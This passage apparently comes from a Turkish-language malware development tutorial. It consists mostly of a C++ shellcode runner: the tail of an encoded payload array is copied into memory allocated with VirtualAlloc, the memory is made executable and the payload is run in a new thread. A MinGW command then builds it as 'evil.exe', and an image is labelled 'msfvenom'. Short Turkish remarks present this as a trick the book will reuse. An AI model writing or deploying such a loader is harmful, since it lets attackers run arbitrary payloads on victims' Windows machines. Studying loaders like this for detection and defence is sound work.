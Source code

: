 ```cpp
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Kodun çoğunu anlamazsanız sorun değil.İleride bu tür benzer hileleri ve kod parçalarını sık sık kullanacağım. Kitabı okudukça, kavramları ve temel şeyleri daha iyi anlayacaksınız.     

İlk önce kontrol edlelim.       

Derleyelim:    

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

![msfvenom](./images/6/2021-09-18_20-35.png){width="75%"}
